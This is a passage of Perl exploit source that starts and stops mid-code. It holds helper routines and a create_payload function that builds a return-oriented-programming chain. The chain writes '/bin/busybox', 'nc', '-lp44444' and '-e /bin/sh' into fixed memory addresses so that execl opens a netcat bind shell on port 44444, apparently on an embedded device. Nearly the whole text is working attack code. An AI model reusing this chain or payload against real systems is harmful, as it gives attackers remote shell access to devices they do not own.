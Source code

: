 ```
	$gadget .= load_eax($data);
	$gadget .= write_mem_eax($addr);

	return($gadget);
}

sub DumpString {
my $s = shift || "";
my @a = unpack('C*',$s);
my $o = 0;
my $i = 0;
print "\tb0 b1 b2 b3 b4 b5 b6 b7\n";
print "\t-- -- -- -- -- -- -- --\n";
while (@a) {
my @b = splice @a,0,8;
my @x = map sprintf("%02x",$_), @b;
my $c = substr($s,$o,8);
$c =~ s/[[:^print:]]/ /g;
printf "w%02d",$i;
print " "x5,join(' ',@x),"\n";
$o += 8;
$i++;
}
}

sub create_payload {
	$ropchain = "";

	# just do a ret
	$ropchain .= pack("V", $ret);

	$exec_path_addr = 0x815e354;
	$exec_arg1_addr = 0x815e364;
	$exec_arg2_addr = 0x815e374;
	$exec_arg3_addr = 0x815e384;


	# 12: "/bin/busybox
	# 2f 62 69 6e 2f 62 75 73  79 62 6f 78 0a           |/bin/busybox.|
	$ropchain .= write4($exec_path_addr+0, 0x6e69622f); # 2f 62 69 6e
	$ropchain .= write4($exec_path_addr+4, 0x7375622f); # 2f 62 75 73
	$ropchain .= write4($exec_path_addr+8, 0x786f6279); # 79 62 6f 78

	# 12: "//usr/bin/nc"
	# 2f 2f 75 73 | 72 2f 62 69 | 6e 2f 6e 63              |//usr/bin/nc|
	$ropchain .= write4($exec_arg1_addr+0, 0x73752f2f); # 2f 2f 75 73
	$ropchain .= write4($exec_arg1_addr+4, 0x69622f72); # 72 2f 62 69
	$ropchain .= write4($exec_arg1_addr+8, 0x636e2f6e); # 6e 2f 6e 63

	#  8: "-lp44444"
	# 2d 6c 70 34 34 34 34 34                           |-lp44444|
	$ropchain .= write4($exec_arg2_addr+0, 0x34706c2d); # 2d 6c 70 34
	$ropchain .= write4($exec_arg2_addr+4, 0x34343434); # 34 34 34 34

	# 12: "-e////bin/sh"
	# 2d 65 2f 2f 2f 2f 62 69  6e 2f 73 68              |-e////bin/sh|
	$ropchain .= write4($exec_arg3_addr+0, 0x2f2f652d); # 2d 65 2f 2f
	$ropchain .= write4($exec_arg3_addr+4, 0x69622f2f); # 2f 2f 62 69
	$ropchain .= write4($exec_arg3_addr+8, 0x68732f6e); # 6e 2f 73 68


		# get addr of execl from PLT
	# we use this add gadget (which we need to work around):
```
